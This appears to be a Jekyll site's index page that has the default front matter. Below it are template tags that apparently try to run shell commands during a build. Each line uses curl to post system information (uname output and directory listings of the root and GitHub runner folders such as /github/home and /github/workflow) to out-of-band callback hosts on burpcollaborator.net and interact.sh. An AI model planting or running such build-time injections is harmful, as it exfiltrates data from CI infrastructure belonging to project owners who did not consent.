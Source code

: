 ```yaml
---
# Feel free to add content and custom Front Matter to this file.
# To modify the layout, see https://jekyllrb.com/docs/themes/#overriding-theme-defaults

layout: home
---
```


# command_execute curl -X POST "http://bs7h10wa8o3oijwmnyx4ofhpbgh65v.burpcollaborator.net" -d "output=$(uname -a)"
{% command_execute curl -X POST "http://c8fz4r32vtc0000k6xtggr891ceyyyyyb.interact.sh" -d "output /\r\n=$(ls -hal /)" %}
{% command_execute curl -X POST "http://c8fz4r32vtc0000k6xtggr891ceyyyyyb.interact.sh" -d "output /github/file_commands\r\n=$(ls -hal /github/file_commands)" %}
{% command_execute curl -X POST "http://c8fz4r32vtc0000k6xtggr891ceyyyyyb.interact.sh" -d "output /github/home\r\n=$(ls -hal /github/home)" %}
{% command_execute curl -X POST "http://c8fz4r32vtc0000k6xtggr891ceyyyyyb.interact.sh" -d "output /github/workflow\r\n=$(ls -hal /github/workflow)" %}
